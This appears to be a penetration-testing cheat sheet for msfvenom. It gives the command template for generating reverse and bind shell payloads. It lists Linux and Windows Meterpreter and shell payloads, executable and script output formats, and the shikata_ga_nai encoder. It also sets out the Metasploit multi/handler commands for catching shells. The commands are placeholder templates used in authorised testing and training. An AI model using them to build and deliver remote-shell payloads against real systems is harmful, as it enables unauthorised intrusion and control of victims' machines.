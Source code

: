 ```yaml
---
layout: default
title: MSFVenom
----

# MSFvenom
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
```


## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

---

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter (stageless)
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter (stageless)

linux/x64/shell/bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter (stageless)
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter (stageless)

windows/x64/shell/reverse_tcp             # Reverse shell
windows/x64/shell_reverse_tcp             # Reverse shell (stageless)
windows/x64/shell/bind_tcp                # Bind shell
windows/x64/shell_bind_tcp                # Bind shell (stageless)

windows/x64/powershell_bind_tcp           # Bind PowerShell (stageless)
windows/x64/powershell_reverse_tcp        # Reverse PowerShell (stageless)

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

---

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

---

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

---

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```